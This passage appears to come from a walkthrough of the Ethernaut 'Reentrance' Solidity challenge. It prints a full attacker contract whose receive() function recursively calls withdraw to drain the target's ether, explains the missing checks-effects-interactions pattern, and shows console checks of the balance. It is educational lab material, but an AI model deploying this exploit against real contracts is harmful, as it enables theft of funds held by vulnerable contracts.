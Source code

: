 ```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IReentrance {
   function withdraw(uint _amount) external; 
   function donate(address _to) external payable;
}

contract ReentrancyAttack {
    IReentrance reentanceContract;
    address payable owner;
    
    constructor (address payable _targetAddress) public {
        reentanceContract = IReentrance(_targetAddress);
        owner = msg.sender;
    }

    function donate() public payable {
        reentanceContract.donate{value: msg.value}(address(this));
    }

    function withdraw(uint _amount) public {
        reentanceContract.withdraw(_amount);
    }

    function destroy() public {
        selfdestruct(owner);
    }

    receive() external payable {
        reentanceContract.withdraw(msg.value);
    }
}
```

So the receive payable function is very crucial in this attack to recursively call the withdraw function until the target contract runs out of ether.

So, first of all we donate the contract with the same amount of ether the contract has i.e 0.001 ether to fully empty the contract. Then we call the withdraw function of this ReentrancyAttack contract to withdraw the amount we have deposited using donate function. The Reentrance contract actually has the checks-effects-interaction pattern missing i.e we first check if the user has enough balance to withdraw then subtract the amount to be withdrawn and only transfer the amount and in this case Reentrance contract is transferring the amount without subtracting the amount from the available balance which causes the ReentrancyAttack contract to enter the withdraw function again and again to withdraw the amount multiple times recursively until the ethers of the contract goes to zero.

Run the below command in the console to get the contract ether available i.e 0.0001
```
await getBalance(contract.address)
```
After attack run the command again to get the contract ether and it is 0.
